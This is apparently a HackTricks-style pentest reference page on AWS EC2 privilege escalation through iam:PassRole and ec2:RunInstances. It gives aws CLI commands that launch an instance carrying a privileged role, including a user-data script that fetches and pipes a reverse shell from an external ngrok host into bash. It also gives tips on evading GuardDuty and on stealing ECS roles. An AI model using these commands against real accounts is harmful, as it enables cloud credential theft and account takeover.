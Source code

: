 # AWS - EC2 Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EC2

For more **info about EC2** check:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `iam:PassRole`, `ec2:RunInstances`

An attacker could **create and instance attaching an IAM role and then access the instance** to steal the IAM role credentials from the metadata endpoint.

- **Access via SSH**

Run a new instance using a **created** **ssh key** (`--key-name`) and then ssh into it (if you want to create a new one you might need to have the permission `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
    --iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
    --security-group-ids <sg-id>
```

- **Access via rev shell in user data**

You can run a new instance using a **user data** (`--user-data`) that will send you a **rev shell**. You don't need to specify security group this way.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
   --iam-instance-profile Name=<instance-profile-name> \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Be careful with GuradDuty if you use the credentials of the IAM role outside of the instance:

{{#ref}}
../../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md
{{#endref}}

**Potential Impact:** Direct privesc to a any EC2 role attached to existing instance profiles.

#### Privesc to ECS

With this set of permissions you could also **create an EC2 instance and register it inside an ECS cluster**. This way, ECS **services** will be **run** in inside the **EC2 instance** where you have access and then you can penetrate those services (docker containers) and **steal their ECS roles attached**.
